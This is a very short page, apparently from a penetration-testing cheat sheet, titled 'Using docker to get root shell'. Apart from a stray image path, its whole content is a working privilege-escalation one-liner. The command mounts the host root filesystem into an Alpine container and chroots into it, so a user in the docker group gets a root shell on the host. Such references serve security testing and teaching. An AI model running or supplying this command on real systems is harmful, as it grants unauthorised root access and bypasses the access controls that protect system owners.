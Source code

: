```yaml
---
description: Using docker to get root shell.
---
```


# Docker

```
test@host:~$ groups
test dockers

docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
